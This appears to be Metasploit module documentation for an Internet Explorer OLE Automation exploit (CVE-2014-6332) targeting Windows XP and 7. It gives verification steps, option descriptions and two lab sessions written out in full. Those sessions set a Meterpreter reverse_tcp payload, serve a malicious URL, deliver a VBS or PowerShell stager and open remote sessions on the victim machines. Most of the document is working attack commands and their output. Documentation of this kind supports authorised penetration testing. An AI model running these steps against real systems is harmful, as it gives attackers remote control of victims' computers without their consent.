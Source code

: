 ## Vulnerable Application

This module exploits the Windows OLE Automation array vulnerability, [CVE-2014-6332](https://www.cvedetails.com/cve/cve-2014-6332). The vulnerability is known to affect Internet Explorer 3.0 until version 11 within Windows 95 up to Windows 10, and no patch for Windows XP. However, this exploit will only target Windows XP and Windows 7 boxes. This is because from Windows 8 upward Internet Explorer blocks the payload from executing. Windows XP by defaults supports VBS, therefore it is used as the attack vector. On other newer Windows systems, the exploit will try using Powershell instead.

## Verification Steps

1. Start msfconsole
1. Do: ```use exploit/windows/browser/ms14_064_ole_code_execution```
1. Do: ```Choose a payload and set any specific options```
1. Do: ```run```, after a target browses to the generated URL, you should receive a session.

## Options

**TRYUAC**

Ask victim to start as Administrator. This option only works on Windows 7 targets.

**AllowPowershellPrompt**

Allow exploit to try Powershell. If exploiting a Windows 7 target you need to enable this option.

## Scenarios

### Windows XP Pro SP3 x86 with IE 8.0.6001.18702

The attacker's IP is `192.168.2.3` and the victim's IP is `192.168.2.207`. 

```
msf > use exploit/windows/browser/ms14_064_ole_code_execution
msf exploit(ms14_064_ole_code_execution) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms14_064_ole_code_execution) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(ms14_064_ole_code_execution) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.3:4444
msf exploit(ms14_064_ole_code_execution) > [*] Using URL: http://0.0.0.0:8080/hGA1Ux
[*] Local IP: http://192.168.2.3:8080/hGA1Ux
[*] Server started.
[*] 192.168.2.207    ms14_064_ole_code_execution - Gathering target information for 192.168.2.207
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending HTML response to 192.168.2.207
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending exploit...
[*] 192.168.2.207    ms14_064_ole_code_execution - Sending VBS stager
[*] Sending stage (957487 bytes) to 192.168.2.207
[*] Meterpreter session 1 opened (192.168.2.3:4444 -> 192.168.2.207:1299) at 2017-03-01 19:07:12 +0100

msf exploit(ms14_064_ole_code_execution) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : MACHINE
OS              : Windows XP (Build 2600, Service Pack 3).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

### Windows 7 Pro SP1 x64 with IE 8.0.7601.17514

The attacker's IP is `192.168.2.3` and the victim's IP is `192.168.2.208`. Unlike on the Windows XP, target victim will see a popup dialog appear and they will have to allow the execution of the PowerShell script for the exploit to work. You need to set `AllowPowershellPrompt` option to `true` otherwise the exploit won't work on Windows 7.

```
msf > use exploit/windows/browser/ms14_064_ole_code_execution
msf exploit(ms14_064_ole_code_execution) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(ms14_064_ole_code_execution) > set LHOST 192.168.2.3
LHOST => 192.168.2.3
msf exploit(ms14_064_ole_code_execution) > set AllowPowershellPrompt true
AllowPowershellPrompt => true
msf exploit(ms14_064_ole_code_execution) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 192.168.2.3:4444
msf exploit(ms14_064_ole_code_execution) > [*] Using URL: http://0.0.0.0:8080/6tdgNjLVij3zs
[*] Local IP: http://192.168.2.3:8080/6tdgNjLVij3zs
[*] Server started.
[*] 192.168.2.208    ms14_064_ole_code_execution - Gathering target information for 192.168.2.208
[*] 192.168.2.208    ms14_064_ole_code_execution - Sending HTML response to 192.168.2.208
[*] 192.168.2.208    ms14_064_ole_code_execution - Sending exploit...
[*] Sending stage (957487 bytes) to 192.168.2.208
[*] Meterpreter session 1 opened (192.168.2.3:4444 -> 192.168.2.208:49197) at 2017-03-01 19:35:12 +0100

msf exploit(ms14_064_ole_code_execution) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : WINDOWS7_X64
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
